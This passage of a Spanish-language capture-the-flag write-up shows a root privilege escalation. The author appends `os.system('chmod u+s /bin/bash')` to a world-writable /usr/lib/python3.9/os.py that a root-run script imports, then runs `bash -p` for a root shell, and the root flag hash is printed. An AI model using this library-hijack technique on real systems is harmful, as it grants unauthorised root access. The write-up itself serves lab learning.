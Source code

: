Veremos esta parte de aqui, en esta seccion vemos esta fila:

```
/usr/lib/python3.9/os.py
```

Vamos a listar dicha libreria de `python`.

```shell
ls -la /usr/lib/python3.9/os.py
```

Info:

```
-rw-rw-rw- 1 root root 39063 Apr  2  2022 /usr/lib/python3.9/os.py
```

Veremos que podemos sobreescribir el archivo y vimos anteriormente que el script que esta ejecutando `root` tiene importada dicha libreria, por lo que vamos hacer lo siguiente:

```shell
nano /usr/lib/python3.9/os.py

#Dentro del nano
.........................<RESTO_DE_CODIGO>........................................
import os
os.system('chmod u+s /bin/bash')
```

Ese fragmento de codigo lo meteremos la final del archivo de `os.py`, ahora solo tendremos que esperar a que se ejecute, esperado un rato vamos a listar la `bash`a ver si funciono.

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1234376 Aug  4  2021 /bin/bash
```

Veremos que si ha funcionado, por lo que haremos lo siguiente.

```shell
bash -p
```

Info:

```
bash-5.1# whoami
root
```

Con esto veremos que ya seremos `root` por lo que leeremos la `flag` de `root`.

> root.txt

```
3aa26937ecfcc6f2ba466c14c89b92c4
```
